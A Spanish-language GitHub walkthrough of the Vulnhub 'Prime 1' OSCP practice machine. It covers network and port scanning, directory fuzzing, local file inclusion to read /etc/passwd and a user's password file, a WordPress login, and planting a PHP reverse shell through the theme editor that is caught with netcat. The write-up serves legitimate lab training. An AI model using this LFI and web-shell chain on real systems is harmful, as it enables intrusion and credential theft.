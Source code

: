 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=FF0000&width=200&height=70&lines=Prime_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/prime-1,358/

</br>

> Esta máquina está diseñada para aquellos que intentan prepararse para el examen OSCP. 

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/173474426-a673d820-8b68-40c9-89f6-4686e436978f.png"></h1>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i eth0
```
![2](https://user-images.githubusercontent.com/75953873/173475187-1682b0c5-0c7e-410c-9455-98e8cd6c5e81.png)

IP host: `192.168.25.133`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv 192.168.25.133
```
![3](https://user-images.githubusercontent.com/75953873/173475468-fee78430-41f0-4a6f-a18d-5934250a6aac.png)

Puertos abiertos: [22,80]

- *Paso 3:* Escaneo agresivo para detectar servicios corriendo.
```
nmap -A 192.168.25.133
```
![4](https://user-images.githubusercontent.com/75953873/173476100-ae65ae3d-4a36-466c-aa98-fbc4fee2c738.png)

Servidor corriendo: **HTTP Apache**

- *Paso 4:* Recorrido de ruta: enumerar archivos .txt con Dirb.

URL: `http://192.168.25.133`

![5](https://user-images.githubusercontent.com/75953873/173476731-79f7a93a-f659-4563-9cfd-d1f271f16a90.png)

```
dirb http://192.168.25.133 -X .txt
```
![6](https://user-images.githubusercontent.com/75953873/173477255-427b51b9-6023-48d8-a0aa-fbb42aa4af16.png)

Archivo secreto: `http://192.168.25.133/secret.txt`

![7](https://user-images.githubusercontent.com/75953873/173477715-6d51f82c-21fe-42c4-854f-fc5f9ca5d17a.png)

Probar los comandos Fuzzing que proporciona el repositorio de Github, el objetivo es encontrar un párametro para navegar dentro de él.

Comando fuzzy: `file`

![8](https://user-images.githubusercontent.com/75953873/173478463-cfd85ea0-4cdc-465c-95a1-79f699dcfd5a.png)

Unir la URL: `http://192.168.25.133/index.php?file=`

![9](https://user-images.githubusercontent.com/75953873/173478799-cd7249ce-8843-499b-917d-c43d22dcc4f4.png)

Archivo proporcionado: `location.txt`

URL completa: `http://192.168.25.133/index.php?file=location.txt`

![10](https://user-images.githubusercontent.com/75953873/173478934-d1f7d4ab-2b65-4666-87f9-346ebcae02b7.png)

El archivo `location.txt` nos dio una pista para usar `secrettire360` como parámetro en otra página php aprovechando la vulnerabilidad de inclusión de archivos locales (LFI).

Localizar archivos `.php` con Dirb:
```
dirb http://192.168.25.133 -X .php
```
![11](https://user-images.githubusercontent.com/75953873/173479528-29899116-a8f6-4a6a-b435-1ebca5e8c50d.png)

Pista: `secrettire360`

URL completa: `http://192.168.25.133/image.php?secrettier360`

```
dirb http://192.168.25.133 -X .php `http://192.168.25.133/image.php?secrettier360` /usr/share/dirb/wordlists/extensions_common.txt
```
![12](https://user-images.githubusercontent.com/75953873/173480064-2e0d0446-d55b-4bbc-97d1-1e7b4fa919f1.png)

URL completa: `http://192.168.25.133/image.php?secrettier360=/etc/passwd`

El usuario `Saket` menciona que dentro de su directorio `/home/saket/` se encuentra el archivo `password.txt`.

![13](https://user-images.githubusercontent.com/75953873/173481350-5277704e-627a-4568-9ded-bf3f91e9a38f.png)

URL completa: `http://192.168.25.133/image.php?secrettier360=/home/saket/password.txt`

![14](https://user-images.githubusercontent.com/75953873/173481656-71110280-511b-4654-823f-1a818ed71a09.png)

**_Credenciales WordPress_**

Usuario: `victor`

Contraseña: `follow_the_ippsec`

URL login: `http://192.168.25.133/wordpress/wp-login.php`

![15](https://user-images.githubusercontent.com/75953873/173482220-0ac1e036-8fea-4224-a696-d31344dd3aa1.png)

- *Paso 5:* Escribir código malicioso PHP.

Apariencia **>** Editor de temas **>** secret.php

![16](https://user-images.githubusercontent.com/75953873/173482698-dbb9561f-e59e-41ef-82d9-8a2152341170.png)

Ruta del código PHP del reverse shell:

```
cat /usr/share/webshells/php/php-reverse-shell.php
```
Cambiar la línea `$ip` por la IP local de su máquina, el puerto lo establecen a `4444`. Guardar cambios **_'Update Files'_**.

![17](https://user-images.githubusercontent.com/75953873/173484877-992337aa-07ec-4e77-9911-3d2012f90cec.png)

- *Paso 6:* Obtener una reverse shell con Netcat.
```
nc -lvp 4444
```

Recargar URL: `http://192.168.25.133/wordpress/wp-content/themes/twentynineteen/secret.php`

![18](https://user-images.githubusercontent.com/75953873/173485293-44576e95-de83-4473-a5f7-bb5a11c5db44.png)

Extraer información de los ficheros `user.txt` y `password.txt`:
```
cat user.txt && cat password.txt
```
![19](https://user-images.githubusercontent.com/75953873/173485677-7abb1021-7e79-4e87-ba5c-20cb4fffc4d2.png)
